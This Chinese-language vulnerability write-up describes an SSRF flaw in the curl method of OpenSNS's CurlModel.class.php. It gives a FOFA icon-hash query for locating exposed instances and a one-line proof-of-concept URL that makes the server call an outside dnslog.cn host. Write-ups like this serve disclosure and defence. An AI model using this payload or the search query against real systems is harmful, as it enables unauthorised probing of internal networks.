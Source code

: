 # OpenSNS CurlModel.class.php SSRF漏洞

## 漏洞描述

OpenSNS CurlModel.class.php文件中curl方法存在SSRF漏洞，通过漏洞攻击者可以探测内网信息

## 漏洞影响

<a-checkbox checked>OpenSNS</a-checkbox></br>

## FOFA

<a-checkbox checked>icon_hash="1167011145"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235733223.png)

存在漏洞的文件为 **Application/Admin/Model/CurlModel.class.php**

![img](../../../.vuepress/public/img/1634372194099-77c5fe31-6860-4f22-b7d8-4c7d7c5e1ecb.png)

构造POC

```php
/?s=weibo/share/shareBox&query=app=Admin%26model=Curl%26method=curl%26id=http://92aq2z.dnslog.cn
```

![img](../../../.vuepress/public/img/1634372283531-85b34ccd-7259-4164-bb67-1806e32fa6ec.png)